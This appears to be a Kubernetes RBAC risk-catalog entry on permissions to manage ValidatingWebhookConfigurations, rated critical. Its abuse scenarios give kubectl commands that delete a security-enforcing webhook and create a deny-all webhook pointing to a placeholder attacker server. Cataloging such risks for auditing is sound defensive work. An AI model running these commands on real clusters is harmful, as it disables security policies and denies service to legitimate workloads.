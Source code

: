 ```yaml
---
id: 1044
title: "Manage ValidatingWebhookConfigurations"
description: "Allows control over ValidatingWebhookConfigurations, which can validate or reject API objects during admission. An attacker can use this to tamper with security policies (e.g., disable a validating webhook that enforces security best practices) or cause denial of service by rejecting legitimate requests."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                   |
| ----------------------- | --------------------------------------------------------------------------------------- |
| ID                      | 1044                                                                                    |
| Name                    | Manage ValidatingWebhookConfigurations                                                  |
| Risk Category           | Tampering                                                                               |
| Risk Level              | {{< risk Critical >}}                                                                   |
| Role Type               | ClusterRole                                                                             |
| API Groups              | admissionregistration.k8s.io                                                            |
| Resources               | validatingwebhookconfigurations                                                         |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                |
| Tags                    | {{< tag "DenialOfService" >}} {{< tag "Tampering" >}} {{< tag "WebhookManipulation" >}} |

## Description

Allows control over ValidatingWebhookConfigurations, which can validate or reject API objects during admission. An attacker can use this to tamper with security policies (e.g., disable a validating webhook that enforces security best practices) or cause denial of service by rejecting legitimate requests.

## Abuse Scenarios

1. Delete a ValidatingWebhookConfiguration that enforces security policies.

```bash
kubectl delete validatingwebhookconfiguration <webhook-name>
# Example: kubectl delete validatingwebhookconfiguration pod-security-policy-webhook

```

2. Create a ValidatingWebhookConfiguration to block legitimate resource creation (DoS).

```bash
kubectl create -f - <<EOF
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: deny-all-pods
webhooks:
- name: deny-all-pods.example.com
  clientConfig:
    url: "https://<malicious-webhook-server>/validate" # Attacker-controlled server that always denies
    caBundle: <base64-encoded-ca-cert>
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  admissionReviewVersions: ["v1", "v1beta1"]
  sideEffects: None
  failurePolicy: Fail # Crucial for DoS
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

